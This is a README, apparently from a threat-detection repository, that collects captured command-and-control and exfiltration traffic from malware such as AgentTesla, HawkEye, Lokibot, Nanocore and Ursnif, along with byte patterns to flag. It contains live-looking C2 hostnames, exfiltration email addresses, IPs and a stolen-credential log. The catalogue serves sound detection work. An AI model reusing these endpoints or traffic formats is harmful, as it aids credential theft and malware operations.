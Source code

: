 ### A repo for matching on known c2 and exfil traffic keywords (ctrl+f to search)

#### AgentTesla http:
~~~
POST /zin/WebPanel/api.php HTTP/1.1
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; ru; rv:1.9.2.3) Gecko/20100401 Firefox/4.0 (.NET CLR 3.5.30729)
Content-Type: application/x-www-form-urlencoded
Host: megaplast.co.rs
Content-Length: 308
Expect: 100-continue
Connection: Keep-Alive

HTTP/1.1 100 Continue

p=G1DZYwdIiDZ6V83seaZCmTT0wiCyOlXVS0OEx4YpkUAOuKO/6hfQJ%2BZD2LjpTbyu9w0gudjYXCIc0Ul74wtsvtqYLYuTR%2BlFVl%2B5deG0RnTTo6nFc1M9tx0%2BRo7WXetRdIHkmVMMSeqH%2BEroM7yttDzosvKfKgB%2BJ07oqT/YvQ6CPNW2%2BCETCU6oIlO9XYyrEy6/hYeF%2BgkfRc9xSEfZhh/7Wk0khJ4zZJ3cjEvXDxJcQWA739/yDUy4kOAndihYsWnLw1mVCHxJSJf7%2BguB9f4DpgX10NLpH
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/agenttesla-http.png "AgentTesla HTTP")

#### AgentTesla smtp exil:
~~~
From: office@larbaxpo[.]com
To: officelogs@larbaxpo[.]com
Date: 9 Oct 2019 17:58:19 +0100
Subject: admin/USER-PC Recovered Cookies
Content-Type: multipart/mixed;
 boundary=--boundary_0_cac7ba32-e0f8-42d4-8b2e-71d1828e6ff7

----boundary_0_cac7ba32-e0f8-42d4-8b2e-71d1828e6ff7
Content-Type: text/html; charset=us-ascii
Content-Transfer-Encoding: quoted-printable

Time: 10/09/2019 17:58:13<br>UserName: admin<br>ComputerName: USE=
R-PC<br>OSFullName: Microsoft Windows 7 Professional <br>CPU: Int=
el(R) Core(TM) i5-6400 CPU @ 2.70GHz<br>RAM: 3583.61 MB<br>IP: 18=
5.183.107.236=0A<hr>
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/agenttesla-submission.png "AgentTesla Submission")

#### Bladabindi - nJrat
~~~
147.ll1990MURFTUFZT19DNEJBMzY0Nw==1990USER-PC1990admin199018-03-2619901990Win 7 Professional SP1 x861990No1990N/A1990..1990UHJvZ3JhbSBNYW5hZ2VyAA==1990123.inf1990MURFTUFZTw0KMWRlbWF5by5kdWNrZG5zLm9yZzoxOTkwDQp2NC4wLjMwMzE5DQpSZWdTdmNzLmV4ZQ0KRmFsc2UNCkZhbHNlDQpGYWxzZQ0KRmFsc2U=15.CAP199035199023926.CAP1990......JFIF.....`.`.....C...........		.
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/njrat.png "Bladabindi - nJrat")

#### Hawkeye keyogger
~~~
From: mosharrof@mhcapparels.com
To: mosharrof@mhcapparels.com
Date: 9 Oct 2019 01:57:35 +0100
Subject: HawkEye Keylogger - Reborn v9 - Passwords Logs - admin \ USER-PC -
 89.187.165.47
Content-Type: text/plain; charset=utf-8
Content-Transfer-Encoding: base64

SGF3a0V5ZSBLZXlsb2dnZXIgLSBSZWJvcm4gdjkNClBhc3N3b3JkcyBMb2dzDQphZG1p
biBcIFVTRVItUEMNCg0KPT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09
PT09PT09PT09PT09PT0NClVSTCAgICAgICAgICAgICAgIDogaHR0cHM6Ly9tLmZhY2Vi
b29rLmNvbQ0KV2ViIEJyb3dzZXIgICAgICAgOiBGaXJlZm94IDMyKw0KVXNlciBOYW1l
ICAgICAgICAgOiBob25leUBwb3QuY29tDQpQYXNzd29yZCAgICAgICAgICA6IGhvbmV5
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/hawkeye.png "Hawkeye")

#### Imminent RAT
~~~
00000000  06 00 00 00 81 13 14 6e 5b 69                     .......n [i
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/imminent-1.png "Imminent")
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/imminent-2.png "Imminent")

#### Lokibot

follw tcp stream, not http stream in wireshark
~~~
POST /sky/five/fre.php HTTP/1.0
User-Agent: Mozilla/4.08 (Charon; Inferno)
Host: fueda.info
Accept: */*
Content-Type: application/octet-stream
Content-Encoding: binary
Content-Key: 8DAA705A
Content-Length: 176
Connection: close

..'.......ckav.ru..
...a.d.m.i.n.......U.S.E.R.-.P.C.......U.S.E.R.-.P.C......................+................0...8.5.6.9.A.A.F.F.6.3.A.A.A.7.1.D.8.0.4.0.0.E.2.5.....Rqbay....
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/lokibot.png "Lokibot")

#### Nanocore

flag on "38 00 00 00 17" pattern
~~~
00000000  38 00 00 00 17 f5 4b 2c c3 65 ca 9f eb bc fd 67   8.....K, .e.....g
00000010  ad 6d 0e c4 33 7d b6 40 17 17 97 a1 d9 7c 3c b3   .m..3}.@ .....|<.
00000020  04 ea d0 16 f2 cf 3e 51 29 18 55 e5 1c 7a 6a 91   ......>Q ).U..zj.
00000030  03 99 38 f7 ac 3b f7 89 85 2e c4 d8               ..8..;.. ....
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/nanocore-38.png "Nanocore 38")

flag on "40 00 00 00 17" pattern:
~~~
00000000  40 00 00 00 17 f5 4b 2c c3 65 ca 9f eb bc fd 67   @.....K, .e.....g
00000010  ad 6d 0e c4 33 7d b6 40 17 17 97 a1 d9 7c 3c b3   .m..3}.@ .....|<.
00000020  04 ea d0 16 87 30 8f fa 78 9d 2a 01 c2 51 ee 07   .....0.. x.*..Q..
00000030  bd e7 23 95 3e ab a1 04 ca 56 b3 fb b7 9b b7 3a   ..#.>... .V.....:
00000040  13 e5 2b 52                                        ..+R
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/nanocore-40.png "Nanocore 40")

#### TA505 Loader:
~~~
POST /2021 HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; InfoPath.2; CIBA; MS-RTC LM 8)
Content-Length: 95
Host: windows-sys-update.com

&D=User-PC&U=admin&OS=6.1&PR=Dwm.exe%7CEXCEL.EXE%7CExplorer.EXE%7Ctaskhost.exe%7Cwindanr.exe%7CHTTP/1.1 404 Not Found
Server: nginx/1.10.3
Date: Wed, 09 Oct 2019 18:53:18 GMT
Content-Length: 0
Connection: keep-alive
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/ta505-loader.png "TA505 Loader")

#### Ursnif:
~~~
POST /images/wsF0B4sp/ZaYjjdVgt73Q1BSOy_2Fofi/qF_2BfPTuK/5Ha_2F0xEvmbSfT_2/FluJ8ZF_2Fx8/g6xkZAZrZwN/2skHgzv92i_2BS/uPf4RDQvATKCgx0GZ5gez/ph_2BLcscLQkKDVw/HGZ6zA6DhGCqgPD/VTX09Q_2FUWIFyWps1/nfJ0I3rIZ/QNKbXjeu7xXa3W_2FZSX/bcWtE2zC4RafXFoRlqL/4EC4YHwclzkXrfX/58a3.bmp HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary=36775038942641984568
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Content-Length: 399
Host: shoshanna.at

--36775038942641984568
Content-Disposition: form-data; name="upload_file"; filename="78C6.bin"

\.\..V.]:.o..<]......H..)E.J=x...e%3..U.@.f......].tZ..1....g..OzC.5v.?o.NL...;..)..E.G.a~.....M#;.Cu;N/.3\$....x.....R....e..5.....-mW,..	..C................n.G.|..k0...@...?I.Iu......9k^.U6tzT9.b.3....#..V.4].La....zL.h+...aa..H.D.....Ar.......3.w.<.!.-.....|F9! 3.....7
--36775038942641984568--
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/ursnif.png "Ursnif POST")

